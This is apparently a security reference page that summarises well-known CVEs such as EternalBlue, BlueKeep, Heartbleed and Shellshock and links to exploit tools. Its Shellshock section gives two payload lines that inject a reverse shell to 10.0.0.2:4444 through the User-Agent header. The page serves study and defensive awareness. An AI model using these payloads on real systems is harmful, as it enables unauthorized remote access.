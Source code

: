 +++
title = "CVE Exploits"
date = "2023-03-31"
description = "All about CVE and KEV exploits."
include_toc = 'true'
+++

# Common Vulnerabilities and Exposures

## Tools

- [Trickest CVE Repository - Automated collection of CVEs and PoC's](https://github.com/trickest/cve)
- [Nuclei Templates - Community curated list of templates for the nuclei engine to find security vulnerabilities in applications](https://github.com/projectdiscovery/nuclei-templates)
- [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
- [CVE Details - The ultimate security vulnerability datasource](https://www.cvedetails.com)


## Big CVEs in the last 5 years.

### CVE-2017-0144 - EternalBlue

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.

Afftected systems:
- Windows Vista SP2
- Windows Server 2008 SP2 and R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold and R2
- Windows RT 8.1
- Windows 10 Gold, 1511, and 1607
- Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.

### CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.

### CVE-2019-0708 - BlueKeep

A remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

### CVE-2019-19781 -  Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Affected products:
- Citrix ADC and Citrix Gateway version 13.0 all supported builds
- Citrix ADC and NetScaler Gateway version 12.1 all supported builds
- Citrix ADC and NetScaler Gateway version 12.0 all supported builds
- Citrix ADC and NetScaler Gateway version 11.1 all supported builds
- Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds

## Older, but not forgotten

### CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).

### CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi"
```

## Thanks to

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)